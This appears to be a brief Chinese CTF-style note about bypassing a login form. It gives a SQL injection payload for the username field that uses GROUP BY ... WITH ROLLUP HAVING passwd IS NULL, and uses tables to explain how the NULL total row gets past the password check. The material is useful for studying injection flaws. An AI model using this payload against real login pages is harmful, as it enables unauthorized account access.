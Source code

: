 # 登陆
	- username填`' or 1 group by passwd with rollup having passwd is NULL#`，密码不填
	- 原理
		- 原表格
			- |username|passwd|
			  |---|---|
			  |xxx|yyy|
		- `group by passwd`根据密码分组
			- |username|passwd|
			  |---|---|
			  |xxx|yyy|
		- `with rollup`创建“总计”行，其中passwd为NULL
			- |username|passwd|
			  |---|---|
			  |xxx|yyy|
			  |xxx|NULL|
		- `having passwd is NULL`选中“总计”行
			- |username|passwd|
			  |---|---|
			  |xxx|NULL|
	-